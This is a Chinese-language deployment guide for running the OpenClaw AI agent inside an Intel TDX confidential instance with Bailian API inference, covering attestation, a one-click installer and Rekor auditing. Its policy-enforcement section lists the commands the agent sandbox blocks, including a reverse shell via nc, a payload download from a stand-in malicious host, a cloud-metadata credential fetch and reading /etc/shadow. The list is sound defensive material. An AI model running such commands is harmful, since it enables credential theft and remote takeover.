





# 基于 TDX 机密计算实例一键构建 OpenClaw 机密 AI Agent（接入百炼 API）

## 背景信息

OpenClaw（[openclaw.ai](https://openclaw.ai)）是一款开源个人 AI Agent，支持插件式工具调用、Live Canvas 可视化工作区、多 IM 平台集成（钉钉、Discord、Slack）以及内置的 agent 驱动架构。AI Agent 在运行过程中处理用户对话、调用外部工具、管理长期记忆和服务凭证，攻击面远超传统应用：从单轮对话扩展到整个执行链路。本方案将 OpenClaw 封装在 Intel TDX（Trust Domain Extensions）可信执行环境中，通过硬件级内存加密、远程证明、供应链可验证和端到端加密访问，确保用户对话、Agent 状态和工具执行过程在受保护的边界内闭环流转。

以下资产构成 Confidential Agent 的核心保护范围：

*   **用户对话隐私**：用户输入、工具执行上下文和 AI 回复，可能包含个人身份、医疗、金融等敏感信息。
*   **Agent 记忆与状态**：OpenClaw 的长期记忆、配置、SKILL 文件，随运行时间积累形成高价值目标。
*   **服务凭证**：百炼 DashScope API Key、钉钉 OAuth 凭据、OpenClaw Gateway Token，一旦泄露可导致服务被接管或调用配额被冒用。

Confidential Agent 的安全架构围绕以下核心原则构建：

1.  **硬件级机密性**：Intel TDX 内存加密引擎（MEE）对 Guest OS 全部内存进行透明加密，确保数据在 CPU、内存总线层面始终处于密文态，云厂商物理访问或 Hypervisor 侧信道均无法获取明文。
2.  **全链完整性**：从 UKI 引导映像度量（RTMR）、dm-verity rootfs 防篡改，到远程证明（Remote Attestation）验证实例运行于真实 TDX 硬件，构建自底向上的信任链，任何组件被替换均可被检测。
3.  **最小权限执行**：通过 PEP（Policy Enforcement Point）策略执行点在隔离容器中运行 Agent 工具调用，基于黑名单策略拦截网络外联、容器操作和敏感路径访问，防止 Prompt 注入导致的权限提升。
4.  **供应链可验证**：构建产物通过 SLSA provenance 签名，镜像参考值记录于 Rekor 透明日志，部署时通过 Rekor 验证，确保运行时镜像与构建时一致。
5.  **零信任部署**：磁盘密钥、百炼 API Key、钉钉凭据等机密资源在 UKI 引导阶段通过远程证明挑战注入到实例中，密钥由您本地持有，云厂商不参与密钥管理。
6.  **通信端到端加密**：客户端通过可信网关建立端到端 RATS-TLS 安全通道，通过远程证明验证实例身份后才传输数据，所有对话、工具调用和管理通信全程加密传输，中间节点无法窃听或篡改。

### 架构概览



_图1. OpenClaw 在 TDX 机密计算实例上接入百炼 API 的部署架构_

本方案的模型推理由 **阿里云百炼（DashScope）API** 提供，AI Agent 本身在 Intel TDX 信任域内运行。用户输入与 Agent 上下文在 TDX 内存边界内组装，再经 OpenClaw 通过 HTTPS 调用百炼 API 完成模型推理；用户对话历史、Agent 长期记忆、SKILL 文件、服务凭据和钉钉机器人状态均不离开 TDX 信任域。这种"机密 Agent + 托管模型"的拆分让本方案可以在通用 TDX 实例（无需 GPU）上运行，部署门槛、成本和扩展性都显著优于在本地运行大模型的方案。

> **说明**：
>
> 与 [《基于异构机密计算实例构建 OpenClaw 机密 AI Agent》](https://help.aliyun.com) 中的"单机 vLLM 推理"方案不同，本方案不在 TDX 实例内部署大模型推理服务，而是直接调用百炼 API。两种方案的对比如下：
>
> | 维度 | 本方案（百炼 API） | 单机 vLLM 推理方案 |
> | --- | --- | --- |
> | 推理后端 | 阿里云百炼 DashScope API | 实例内 vLLM + 本地权重 |
> | 实例规格 | `ecs.g9i.xlarge`（TDX，无 GPU） | `ecs.gn8v-tee.4xlarge`（TDX + GPU） |
> | 数据流 | 推理请求经 HTTPS 离开 TEE 调用百炼 | 推理全过程不出 TEE |
> | 适用场景 | 轻量、低运维、按量付费、需要最新模型 | 数据严格不出域、模型权重需要保密 |
>
> 如需将模型推理也置于 TEE 边界内，请参考单机 vLLM 推理方案。

> **重要**：
>
> 本方案中，模型推理 prompt 与回复会以 HTTPS 形式发送到百炼 API。百炼 API 由阿里云提供，符合阿里云数据保护承诺，但 prompt 内容会离开 TDX 实例的硬件加密边界。如对推理过程也有"数据不出 TEE"的要求，请使用单机 vLLM 推理方案。

### 部署使用流程



1. 源码获取与依赖安装：部署机下载 Confidential Agent 源码，安装 Docker、Rust 等依赖；如果系统中没有 Shelter，则安装仓库 `hack/` 中内置的 Shelter RPM。`cosign` 和 `rekor-cli` 已内置在 `confidential-agent-tools` 镜像中，不需要在部署机单独安装。
2. 制品构建与参考值公开：从源码构建 OpenClaw 可信镜像，提取 TDX/UKI 参考值并上传 Rekor 透明日志。
3. 创建 TDX 机密实例：通过 Shelter 与 Terraform 创建 ECS 实例、VPC、交换机、安全组、OSS Bucket 和自定义镜像。
4. 远程证明审计与机密资源注入：部署工具对实例执行远程证明，验证通过后注入 OpenClaw 配置、百炼 API Key、钉钉凭据和 Gateway Token。
5. 建立可信访问通道：部署机启动 TNG（Trusted Network Gateway）Client，对云端 TDX 实例进行远程证明并建立 RATS-TLS 加密通道。
6. 访问 OpenClaw：用户通过 Web、桌面客户端、TUI 或钉钉与 OpenClaw 对话，所有访问流量经 TNG 通道进入 TDX 实例。

### 安全分层

Confidential Agent 部署中的核心数据均在 TEE（Trusted Execution Environment，可信执行环境）边界内闭环流转，安全架构自底向上覆盖硬件、启动链、运行时、密钥和通信五个层级：



| 保护层级 | 机制 |
| --- | --- |
| 硬件层 | Intel TDX 对 Guest 内存透明加密，云平台和宿主机无法读取明文。 |
| 启动链 | UKI（Unified Kernel Image，统一内核镜像）和 dm-verity rootfs 防篡改；镜像度量值上传 Rekor 透明日志。 |
| 运行时 | `cai-pep`（Policy Enforcement Point，策略执行点）对高危命令、敏感路径和网络访问执行策略拦截。 |
| 密钥管理 | 磁盘密钥、OpenClaw 配置、钉钉凭据、百炼 API Key 等机密资源仅在远程证明通过后注入。 |
| 通信链路 | RATS-TLS 在建立连接前完成远程证明验证，访问链路端到端加密。 |

## 前提条件

在开始部署之前，请确认满足以下条件：

*   已开通阿里云 ECS 服务，账号具备创建 TDX 机密计算实例、VPC、交换机、安全组、OSS Bucket、自定义镜像等资源的权限。
*   已准备一台 Alibaba Cloud Linux 3 ECS 实例作为部署机，可用磁盘空间不低于 80 GB。
*   已获取阿里云访问凭证。建议使用 RAM 用户最小权限、RAM 角色或 STS 临时凭证，避免长期存储主账号 AccessKey。
*   已开通阿里云百炼服务并获取 DashScope API Key（参考 [百炼控制台](https://bailian.console.aliyun.com)）。
*   如需使用钉钉集成，已创建钉钉企业内部应用并获取 `Client ID` 和 `Client Secret`。
*   部署机可以访问公网，用于拉取源码、系统包、Node.js、npm 包、Rekor 透明日志和阿里云 OpenAPI。

> **重要**：
>
> 部署机仅用于执行构建和部署操作，后续一键脚本会自动创建新的 TDX 机密实例承载 OpenClaw 服务。部署机本身无需是 TDX 实例。本文以 `ecs.g9i.xlarge`、地域 `cn-beijing`、可用区 `cn-beijing-i` 为默认示例。

## 操作步骤

以下步骤展示 one-click 路径。如果你需要逐条执行 CLI 命令来审查或接入自己的自动化流水线，请参考 [OpenClaw CLI 分步部署示例](../openclaw-cli-step-by-step.md)。

### 步骤一：准备部署机

1.  登录 ECS 实例。

    访问 ECS 控制台，在页面左侧顶部选择目标地域和资源组，进入部署机实例详情页，单击远程连接，选择通过 Workbench 或 SSH 方式登录。

2.  设置凭证环境变量。

    执行以下命令导出阿里云访问凭证和百炼 API Key：

    ```bash
    export ALICLOUD_ACCESS_KEY="<YOUR_ACCESS_KEY>"
    export ALICLOUD_SECRET_KEY="<YOUR_SECRET_KEY>"
    export DASHSCOPE_API_KEY="<YOUR_DASHSCOPE_API_KEY>"
    ```

    如需启用钉钉接入，继续执行以下命令：

    ```bash
    export DINGTALK_BOT_CLIENT_ID="<YOUR_DINGTALK_CLIENT_ID>"
    export DINGTALK_BOT_CLIENT_SECRET="<YOUR_DINGTALK_CLIENT_SECRET>"
    ```

> **说明**：
>
> 凭证仅在当前 shell 生效。退出 shell 或重启实例后需要重新 `export`。一键脚本不会把凭证写入磁盘，仅在远程证明通过后注入到 TDX 实例内。

### 步骤二：执行一键部署

在部署机上执行以下命令进入交互式部署：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh
```

脚本默认进入交互模式，会自动询问缺失的阿里云凭证、百炼 API Key、钉钉凭据、OpenClaw Gateway Token 和 operator CIDR。常用默认配置如下：

| 配置项 | 默认值 | 说明 |
| --- | --- | --- |
| Region | `cn-beijing` | 阿里云地域。 |
| Zone | `cn-beijing-i` | 支持 TDX 实例规格的可用区。 |
| Instance Type | `ecs.g9i.xlarge` | 默认 TDX 实例规格。 |
| System Disk | `200G` | OpenClaw 镜像和运行态所需磁盘空间。 |
| OpenClaw Version | `2026.5.7` | OpenClaw 版本。 |
| Node.js Version | `22.19.0` | OpenClaw 运行时 Node.js 版本。 |
| npm Registry | `https://registry.npmmirror.com/` | OpenClaw 镜像构建时使用的 npm 源。 |
| Reference Value | `rekor` | 构建后将参考值上传 Rekor，并在部署时使用 Rekor 验证。 |
| State Dir | `$HOME/.confidential-agent` | 本地状态、密钥、Terraform 和构建产物目录。 |
| PEP | enabled | 默认安装并启用 `cai-pep`。传入 `--disable-pep` 时不打包 PEP 二进制、OpenClaw PEP 插件、默认策略和 TDX attestation skill。 |

非交互部署示例：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh -s -- deploy-openclaw \
  --non-interactive \
  --yes \
  --region cn-beijing \
  --zone-id cn-beijing-i \
  --instance-type ecs.g9i.xlarge \
  --disk-gb 200 \
  --enable-dingtalk
```

默认部署会启用 PEP，并把 OpenClaw 的高风险工具执行接到 `cai-pep`。如果只想验证 OpenClaw/Bailian、TNG connect、远程证明资源注入和 gateway token 这条主链路，而暂时不安装 PEP，可以显式传入：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh -s -- deploy-openclaw \
  --non-interactive \
  --yes \
  --disable-pep
```

`--disable-pep` 与 `--run-tdx-skill-probe` 互斥，因为该 probe 依赖镜像内的 `tdx-remote-attestation` skill 和 `cai-pep attest` 命令。

如需仅安装本机依赖、构建 Confidential Agent 组件和 tools 镜像，不创建云资源，执行以下命令：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh -s -- install-only
```

### 步骤三：确认安全组 CIDR

一键脚本会自动探测部署机公网出口 IP，并在交互模式下询问 operator access CIDR：

| 选项 | 含义 | 适用场景 |
| --- | --- | --- |
| 当前部署机公网 IP `/32` | 仅允许当前部署机访问控制面、状态接口、debug SSH 和 connect 端口。 | 默认推荐，适用于生产和测试。 |
| `0.0.0.0/0` | 允许所有 IPv4 来源访问 operator 暴露端口。 | 临时演示或受控网络环境。 |

> **说明**：
>
> 当前一键脚本仅支持 IPv4 CIDR；底层 `peering` 命令也只接受 IPv4 地址。部署机如果只有 IPv6 出口，请手动指定一个可用的 IPv4 CIDR。非交互传入的 `--allowed-cidr` 表示用户或运维入口 CIDR；脚本仍会额外探测部署机公网出口 IP，并写入单独的 `deployer` peering，保证部署阶段的资源注入、状态检查和 connect 流程可达。

> **重要**：
>
> `0.0.0.0/0` 会扩大暴露面。默认 OpenClaw 配置禁用 device auth，控制面仅靠 Gateway Token 鉴权；与 `0.0.0.0/0` 叠加使用时，请将 Token 视为高敏感凭据妥善保管。生产环境请限制为具体公网出口 IP 或企业出口 CIDR。

非交互指定 CIDR 示例：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh -s -- deploy-openclaw \
  --non-interactive \
  --yes \
  --allowed-cidr 203.0.113.10/32
```

### 步骤四：等待部署完成

脚本会自动完成以下动作：

1.  安装 Alibaba Cloud Linux 3 主机依赖，使用系统源中的 `cargo`/`rust`、`python3.11` 和 Node.js，并写入 Aliyun Cargo sparse registry；默认不使用 rustup。
2.  在缺少 Shelter 时安装内置 Shelter RPM，并校验 Shelter 和 Docker。
3.  构建 `confidential-agent`、`confidential-agentd` 和 `cai-gateway`，默认同时构建 `cai-pep`，并将这些二进制安装到 `/usr/local/bin`。传入 `--disable-pep` 时跳过 `cai-pep` 构建、安装和镜像打包。
4.  构建内置 `cosign`、`rekor-cli`、TNG 和远程证明客户端的 `confidential-agent-tools:latest`，并在部署机安装与镜像内匹配的 OpenClaw CLI。
5.  构建 OpenClaw 可信镜像，启用 FDE、dm-verity 和 UKI。
6.  将镜像参考值上传 Rekor 透明日志。
7.  创建阿里云云资源并启动 TDX ECS。
8.  远程证明通过后注入 OpenClaw 配置、百炼 API Key、钉钉凭据和 Gateway Token。启用钉钉时，镜像内会按 OpenClaw 上游实践安装并构建 `soimy/openclaw-channel-dingtalk`，再写入 `dingtalk` channel 配置。
9.  启动本地 TNG connect 隧道，并执行 Web 可达性检查、Gateway WebSocket probe 和 chat probe。chat probe 会经过百炼 API 真实回包，作为端到端可用性确认。

部署成功后，脚本会输出类似以下信息：

```text
Confidential Agent one-click summary
  state_dir: /root/.confidential-agent
  work_dir:  /root/.confidential-agent/one-click
  service:   openclaw
  region:    cn-beijing
  zone_id:   cn-beijing-i
  instance:  ecs.g9i.xlarge
  cidr:      203.0.113.10/32
  dingtalk:  1
  pep:       enabled
  token:     <generated-or-provided-token>
  web:       http://127.0.0.1:18789/openclaw
  ws/api:    ws://127.0.0.1:18789
  tui:       openclaw tui --url ws://127.0.0.1:18789 --token "<generated-or-provided-token>"
```

> **说明**：
>
> Gateway Token 会保存在 `$HOME/.confidential-agent/one-click/secrets/gateway.token`，后续重跑会复用同一个 Token。如需轮换，请删除该文件后重跑脚本。

### 步骤五：访问受机密计算保护的 OpenClaw 服务

服务就绪后，可以通过钉钉、Web、桌面客户端或 TUI 四种方式访问 OpenClaw。所有访问流量都经过 TNG RATS-TLS 通道进入 TDX 实例。



#### 方式一：通过钉钉聊天

在钉钉中找到已配置的机器人，直接发送消息即可与 OpenClaw 对话。钉钉请求会进入云端 OpenClaw，OpenClaw 的配置、凭据和运行状态均在 TDX 实例内处理。

| 检查项 | 说明 |
| --- | --- |
| 钉钉应用凭据 | `DINGTALK_BOT_CLIENT_ID` 和 `DINGTALK_BOT_CLIENT_SECRET` 已在部署时注入。 |
| OpenClaw 配置 | 一键脚本会安装 `soimy/openclaw-channel-dingtalk` 插件，并在 guest 内生成包含 `dingtalk` channel 的 OpenClaw 配置。 |
| 网络访问 | 钉钉平台需能访问 OpenClaw 侧配置的回调或连接方式，具体以 OpenClaw 与钉钉应用配置为准。 |

#### 方式二：通过浏览器 Web 界面

如果浏览器运行在部署机上，直接访问以下地址：

```text
http://127.0.0.1:18789/openclaw
```

如果浏览器运行在个人电脑上，先在个人电脑上执行以下命令，从个人电脑到部署机建立 SSH 端口转发：

```bash
ssh -L 18789:127.0.0.1:18789 root@<DEPLOY_MACHINE_PUBLIC_IP>
```

然后在个人电脑浏览器中访问以下地址：

```text
http://127.0.0.1:18789/openclaw
```

页面打开后，填入步骤四输出的 Gateway Token 即可使用。

#### 方式三：通过 OpenClaw 桌面客户端

在个人电脑上安装 OpenClaw 桌面客户端，配置 Remote 模式：

| 配置项 | 值 |
| --- | --- |
| Server URL | `ws://127.0.0.1:18789` |
| Token | 步骤四输出的 Gateway Token |

如果桌面客户端不在部署机上运行，先在个人电脑上执行以下命令建立 SSH 端口转发：

```bash
ssh -L 18789:127.0.0.1:18789 root@<DEPLOY_MACHINE_PUBLIC_IP>
```

#### 方式四：通过 OpenClaw TUI

一键脚本会在部署机上安装与云端镜像匹配的 OpenClaw CLI。执行以下命令运行 TUI：

```bash
openclaw tui --url ws://127.0.0.1:18789 --token <YOUR_GATEWAY_TOKEN>
```

> **注意**：
>
> 首次通过 TUI 连接时，如提示 `pairing required`，请先在浏览器中访问 `http://127.0.0.1:18789/openclaw`，在节点页面找到待授权设备并单击 Approve，再返回 TUI 使用。

### 步骤六（可选）：释放资源

不再需要服务时，在部署机上执行以下命令释放云资源：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh -s -- cleanup \
  --state-dir "$HOME/.confidential-agent"
```

也可以直接使用本地二进制：

```bash
confidential-agent destroy openclaw
```

`cleanup` 模式会自动停止本地 connect 隧道并清理 `connect.pid`。如果通过本地二进制释放，且本地 connect 隧道仍在运行，执行以下命令手动停止：

```bash
kill "$(cat "$HOME/.confidential-agent/one-click/connect.pid")"
```

> **警告**：
>
> 销毁操作不可逆，会删除 ECS 实例、自定义镜像、OSS 对象、安全组、VPC、交换机等云资源。请确认不再需要实例中的数据后再执行。销毁完成并确认云资源已释放后，才建议删除本地状态目录：
>
> ```bash
> rm -rf "$HOME/.confidential-agent"
> ```

资源清理关系如下：



## 使用示例

### 示例一：查询当前安全状态

OpenClaw 内置 `tdx-remote-attestation` skill。当用户询问安全相关问题时，OpenClaw 可触发远程证明能力，验证当前运行环境的安全状态。

**触发方式**：在钉钉、Web 或 TUI 中询问以下问题：

```text
我的数据安全吗？
这个环境可信吗？
请验证当前 TDX 运行环境。
```

**返回内容关注点**：

| 验证项 | 说明 |
| --- | --- |
| 硬件可信状态 | 验证实例运行在 Intel TDX Trust Domain 中（hardware 值 ≤ 32 视为通过）。 |
| TEE 类型 | Intel TDX Trust Domain。 |
| UKI 启动链完整性 | 镜像度量值与 Rekor 透明日志中的参考值一致。 |
| dm-verity rootfs | rootfs 防篡改开启，运行时文件系统完整性受保护。 |
| RATS-TLS 通道 | 客户端在建立连接前完成远程证明验证。 |

### 示例二：PEP 策略拦截演示

`cai-pep` 是为机密 AI Agent 设计的运行时门禁机制。当 OpenClaw 通过 `exec` 工具执行命令时，请求会先经过 `cai-pep` 进行策略匹配，再进入隔离的 Docker sandbox 执行。

PEP 提供三层防护：

1.  **命令级拦截**：基于黑名单拒绝高危命令，例如 `curl`、`wget`、`nc`、`ssh`、`docker` 等。
2.  **路径级拦截**：阻止访问敏感路径，例如 `/etc`、`/proc`、`/root`、OpenClaw 配置目录等。
3.  **网络隔离**：sandbox 默认无网络权限，即使命令绕过黑名单也无法发起外连。

以下命令会被 PEP 拒绝：

| 类型 | 示例命令 | 拦截原因 |
| --- | --- | --- |
| 网络访问 | `curl http://169.254.169.254/latest/meta-data/` | 防止访问云元数据服务泄露凭证。 |
| 网络访问 | `wget http://malicious.example.com/payload` | 防止下载外部恶意代码。 |
| 反向 Shell | `nc 10.0.0.99 4444 -e /bin/bash` | `nc` 命中命令黑名单。 |
| 远程登录 | `ssh root@external-host` | 防止越权访问外部系统。 |
| 容器操作 | `docker ps` | 防止操作宿主机容器。 |
| 敏感路径 | `cat /etc/shadow` | `/etc/shadow` 命中敏感路径前缀。 |

例如，当 Agent 尝试执行以下命令访问云元数据服务时：

```text
运行：curl http://169.254.169.254/latest/meta-data/
```

PEP 会识别到 `curl` 在拒绝命令列表中，直接拦截该请求并返回拒绝信息，阻止凭证泄露。

## 审计

部署流程默认使用 Rekor 透明日志来存储镜像参考值，在远程证明过程中自动从 Rekor 透明日志服务中获取日志条目，获取机密虚拟机的参考值。本节介绍如何对 Rekor 日志条目进行审计，验证供应链完整性。

### 查看 Rekor 记录

构建完成后，可在状态目录下找到 Rekor metadata：

```bash
find "$HOME/.confidential-agent" -name "*.rekor-meta.json" -print
```

每个条目对应一份 SLSA provenance，包含 log index 和 entry URL（含 UUID）。一键脚本输出的 Rekor 上传日志示例：

```text
Created entry at index 1205944956, available at: https://rekor.sigstore.dev/api/v1/log/entries/<uuid>
```

远程证明注入时，Confidential Agent 会从 Rekor 拉取参考值并写入 Trustiflux，只有运行环境度量值与参考值匹配时，机密资源注入才会成功。

### 验证 Rekor 条目的包含性（inclusion proof）

包含性证明用于确定记录着镜像参考值的条目确实存在于 Rekor 的默克尔树根（Merkle Root）中。可使用 tools 镜像内置的 `rekor-cli` 验证条目已被正确纳入透明日志：

```bash
docker run --rm --network host confidential-agent-tools:latest \
  rekor-cli verify --log-index 1205944956 --rekor_server https://rekor.sigstore.dev
```

如果输出中包含两段相同 hash 值，则说明验证成功：

```text
Computed Root Hash: 1291abcee27148a4c00241ba8719f798ce060e8a5ccc8b18249017c25c6d0090
Expected Root Hash: 1291abcee27148a4c00241ba8719f798ce060e8a5ccc8b18249017c25c6d0090
```

### 验证 Rekor 条目的一致性（consistency proof）

一致性证明可确定一个较旧的默克尔树根（Root A）是较新的默克尔树根（Root B）的前缀或历史状态，从而确保 Rekor 上存储的参考值条目没有被删改：

```bash
docker run --rm --network host confidential-agent-tools:latest \
  rekor-cli loginfo --rekor_server https://rekor.sigstore.dev
```

如果看到输出中包含如下内容，则说明验证成功：

```text
Verification Successful!
```

## 注意事项

> **重要**：以下注意事项直接影响服务的正常运行，请务必仔细阅读。

### 安全组规则

一键部署过程中将自动创建安全组规则。如需后续修改，请确保保留以下端口：

| 端口 | 协议 | 说明 | 建议 |
| --- | --- | --- | --- |
| 22 | TCP | SSH 远程管理（仅 Debug 镜像） | 限制源 IP 为管理网络。 |
| 18789 | TCP | TNG 隧道端点（RATS-TLS），用于访问 OpenClaw 服务 | 限制源 IP 或仅通过 TNG 访问。 |

> **重要**：
>
> 默认 operator CIDR 为部署机公网出口 IP `/32`。如果手工指定 `0.0.0.0/0`，请同时降低 Token 暴露风险，并在生产环境改回具体公网出口或企业出口 CIDR。

### 百炼 API Key 与配额

百炼 API Key 决定了实例可用的模型与配额。建议：

1.  使用最小必要配额的 API Key，避免使用主账号 Key。
2.  注入实例后定期轮换：删除 `secrets/gateway.token`、重新 `export DASHSCOPE_API_KEY` 后重跑一键脚本即可。
3.  结合百炼控制台的访问审计，对调用量异常做告警。

### 钉钉接入

启用钉钉接入后：

1.  钉钉应用必须具备 stream/接收消息所需的权限，否则机器人无法正常对话。
2.  `Client ID` 与 `Client Secret` 仅在 TDX 实例内使用，部署机和源码仓库不会留存。
3.  本地 connect 隧道断开不会影响钉钉链路，因为钉钉直连云端 TDX 实例的 OpenClaw。

## 常见问题

#### Q1：`peering 'ops' already exists with a different CIDR`

**处理方式**：

该错误表示当前状态目录中已存在不同 CIDR 的 operator peering。请执行以下操作之一：

*   重新传入与已存在 peering 一致的 `--allowed-cidr`。
*   在交互模式中确认替换。
*   非交互模式下追加 `--yes`。

#### Q2：`Shelter is required` 或 `SLSA generator is required`

**处理方式**：

该错误表示部署机未安装 Shelter，或 Rekor 模式找不到 Shelter 的 SLSA generator。请执行以下操作之一：

*   确认仓库 `hack/` 目录下存在 `shelter-*.rpm`，或通过 `--shelter-rpm` 指定 RPM 路径。
*   重新安装 Shelter RPM，确保 `/usr/libexec/shelter/slsa/slsa-generator` 存在。
*   仅本地开发验证场景下，使用 `--reference-values sample` 跳过 Rekor 流程。

#### Q3：Web 端口打不开

**处理方式**：

请按以下顺序检查：

1.  查看 `connect.log`：`tail -F "$HOME/.confidential-agent/one-click/connect.log"`。
2.  检查 ECS 实例安全组是否放通 `ops` 和 `deployer` 两个 operator peering。
